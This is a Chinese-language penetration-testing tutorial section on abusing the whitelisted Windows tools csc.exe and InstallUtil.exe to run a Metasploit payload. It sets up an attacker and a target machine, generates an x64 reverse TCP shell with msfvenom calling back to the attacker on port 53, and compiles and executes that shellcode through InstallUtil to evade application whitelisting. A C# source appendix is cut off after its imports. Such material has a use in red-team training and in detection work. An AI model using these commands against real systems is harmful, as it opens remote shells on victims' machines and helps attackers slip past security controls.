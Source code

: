 ### 11.7 基于白名单Csc.exe执行payload（七）

**Csc.exe简介：**

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\\WINNT\\Microsoft.NET\\Framework\\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放 test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs 将Ttest.cs 编译成名为 test.exe 的 console 应用程序

说明： Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

基于白名单Csc.exe配置payload：

**Windows 7 默认位置：**

    C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe
    C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe
    
        

攻击机：192.168.1.4 Debian-
靶机：192.168.1.5 Windows 7

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151917100.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**配置payload：**

    msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f csharp
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151934327.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
copy buf 到 Micropoor\_Csc.cs shellcode 中。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151941249.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /platform:x64 /unsafe C:\Users\John\Desktop\Micropoor_Csc.cs
    
        

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\John\Desktop\Micropoor.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010152009753.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
与第七十二课相比，payload更为灵活。

**附录：Micropoor\_Csc.cs**

    using System;
    
    using System.Net;
    
    using System.Diagnostics;
    
    using System.Reflection;
    
    using System.Configuration.Install;
    